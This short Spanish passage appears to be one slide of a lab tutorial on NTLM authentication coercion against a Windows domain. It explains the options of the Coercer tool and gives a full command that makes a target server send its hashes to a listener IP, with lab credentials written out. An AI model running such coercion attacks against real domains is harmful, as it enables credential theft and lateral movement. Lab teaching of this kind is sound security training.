

Ahora ejecutaremos el script de Coerce:

Siendo -u el nombre de usuario, -p la contraseña, -d el dominio, -l la IP que va escuchar y a la que se le enviaran los hashes, -t la IP del objetivo, en este caso el servidor dos de Windows server, --always-continue para que haga el ataque sin preguntar nada.

python3 Coercer.py coerce -l 192.168.1.44 -t 192.168.1.80 -u Alesander -p abc123. -d google.local  --always-continue   -v